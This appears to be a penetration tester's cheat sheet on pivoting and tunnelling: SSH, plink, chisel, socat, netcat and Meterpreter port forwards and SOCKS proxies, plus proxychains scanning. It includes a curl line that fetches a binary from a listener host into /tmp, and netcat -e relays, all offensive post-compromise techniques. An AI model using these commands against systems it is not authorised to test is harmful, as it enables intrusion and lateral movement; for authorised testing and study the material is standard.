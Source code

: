 # Pivoting

### Single reverse port forwarding

```bash
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
ssh -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
```

### Single Local port forwarding

```bash
ssh -l root -pw password -L 445:127.0.0.1:445 <target>
```

### Dynamic port forwarding

Socks proxy (socks5) 

```bash
ssh -l root -pw password -D 1234 <target>

# Reverse dynamic 
ssh -R 1234 <target>
```

Double SSH tunnel

```bash
ssh <1st_target> -L 2222:<2nd_target>:22
ssh localhost -p 2222 -D 1234
```

### Proxychains

```bash
# Choose any tools to create a socks proxy 
ssh <target> -D 1234

# Configure proxychains.conf with the protocl and port you chose for the socks proxy
sudo vim /etc/proxychains.conf 
	quiet_mode				   # enable this 
	socks5	127.0.0.1 1234     # change this

#Use any tool prepending the proxychains command :
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:1234 --force

# For nmap, you need to specify the -Pn and -sT arguments
proxychains nmap -sT -Pn <target>
```
> You can also forward a single port to avoid using a socks proxy, or use sshuttle


### SSHuttle

transparent proxy over ssh

```sh
# sudo apt-get update && sudo apt-get install sshuttle
sshuttle -r <target_ip>:22 <target_network>/24
```

---

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip> [-P <listener_port>] 
```

### [Chisel](https://github.com/jpillora/chisel)

Socks proxy over SSH for Windows

```sh
git clone git clone https://github.com/jpilloria/chisel && cd chisel && go build && go build -ldflags="-s -w" && upx build chisel && chmod +x chisel
./chisel client <listener_ip>:10000 R:4506:127.0.0.1:4506
chisel server -p 10000 --reverse
```

### Socat

```sh
curl -sL http://<listener_ip>:1234/socat -o /tmp/socat && chmod +x /tmp/socat && cd /tmp

# remote forward : redirect all trafic coming from TCP 4506 to remote host
socat TCP-LISTEN:4506,reuseaddr,reuseport,fork,bind=<listener_ip> TCP:<remote_ip>:4506

# localhost forward : redirect all trafic coming from TCP 80 to TCP 5000
socat TCP-LISTEN:80,fork TCP:127.0.0.1:5000

```

### Netcat

```sh
nc -v -lk -p 8001 -e /usr/bin/nc 127.0.0.1 8000
nc.traditional -l -p 8001 -c "nc 127.0.0.1 8000"
```

### [ReGeorg](https://github.com/sensepost/reGeorg)

Socks proxy over web

## Scan 

[PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009)

```sh
. .\Invoke-Portscan.ps1
Invoke-Portscan -Hosts <target>,<target2>
```

